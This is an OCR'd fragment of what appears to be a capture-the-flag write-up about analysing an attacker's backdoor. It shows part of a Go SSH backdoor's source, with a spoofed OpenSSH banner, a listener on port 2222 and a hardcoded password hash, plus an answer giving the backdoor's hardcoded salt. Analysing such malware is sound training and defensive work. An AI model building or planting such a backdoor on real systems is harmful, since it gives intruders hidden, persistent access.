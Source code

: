         "github.com/creack/pty"
        "github.com/gliderlabs/ssh"
        "github.com/integrii/flaggy"
        gossh "golang.org/x/crypto/ssh"
        "golang.org/x/crypto/ssh/terminal"
)

var hash string = "bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3"

func main() {
        var (
                lport       uint   = 2222
                lhost       net.IP = net.ParseIP("0.0.0.0")
                keyPath     string = "id_rsa"
                fingerprint string = "OpenSSH_8.2p1 Debian-4"
        )

        flaggy.UInt(&lport, "p", "port", "Local port to listen for SSH on")
        flaggy.IP(&lhost, "i", "interface", "IP address for the interface to listen on")
        flaggy.String(&keyPath, "k", "key", "Path to private key for SSH server")
        flaggy.String(&fingerprint, "f", "fingerprint", "SSH Fingerprint, excluding the SSH-2.0- prefix")
        flaggy.String(&hash, "a", "hash", "Hash for backdoor")
        flaggy.Parse()

        log.SetPrefix("SSH - ")
        privKeyBytes, err := ioutil.ReadFile(keyPath)
        if err != nil {
                log.Panicln("Error reading privkey:\t", err.Error())
        }
        privateKey, err := gossh.ParsePrivateKey(privKeyBytes)
        if err != nil {
                log.Panicln("Error parsing privkey:\t", err.Error())
        }
        server := &ssh.Server{
                Addr:            fmt.Sprintf("%s:%v", lhost.String(), lport),
                Handler:         sshterminal,
                Version:         fingerprint,
                PasswordHandler: passwordHandler,
...
</code></pre>

<br>


<br>

> 2.2. <em>What's the hardcoded salt for the backdoor?</em><br><a id='2.2'></a>
>> <code><strong>1c362db832f3f864c8c2fe05f2002a05</strong></code>


<br>

<pre><code>└─$ cat main.go         
package main

